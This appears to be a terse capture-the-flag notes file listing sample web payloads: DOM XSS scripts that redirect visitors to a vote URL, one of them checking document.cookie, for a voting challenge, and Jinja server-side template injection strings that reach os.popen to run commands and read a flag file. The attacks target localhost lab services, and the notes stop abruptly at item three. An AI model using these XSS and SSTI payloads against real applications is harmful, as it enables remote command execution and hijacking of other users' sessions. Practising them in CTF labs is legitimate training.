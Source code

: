 ### 1. vote challenge. 

>  Everyone can register and create their own profile. The main page has a public comment section. The comment will be DOM XSS enabled, and vote by calling your profile vote/ca463d3bf6f74c59bf757d500b1fcf89. A winner will be announced every 5 minutes. A flag will be printed on the profile with the most votes.

#### sample payloads. 
```
<script> document.location = 'http://localhost:1339/vote/ca463d3bf6f74c59bf757d500b1fcf89'</script>
function sleep(ms) {

    return new Promise(resolve => setTimeout(resolve, ms));

}
```

```
<script>
async function go(){

await sleep(20);

if (document.cookie.indexOf('user') > -1 ) {
  window.location.replace('http://localhost:1339/vote/be1c1a788bd04360924ccb53709a30eb');
}


}

go();
</script>
```


```
reamb<script>let uuid; for (let a of document.querySelectorAll("a")) { if(a.textContent.includes('reamb')) uuid = a.href.split('/')[4] }; location.href = '/vote/' + uuid</script>
```

2. ssti web
 payload should be no longer than 48 chars. 
 sample payloads. 
http://localhost/ssti?query={{g.__class__.__base__.__subclasses__()[92]}}

url_for.__globals__.os.popen("ls").read()
{{url_for.__globals__.os.popen("od t*").read()}}
g.pop.__globals__.os.popen("od f*").read()   # reading flag
config.__init__.__globals__.os.popen("nl * | od -b").read()


 3.
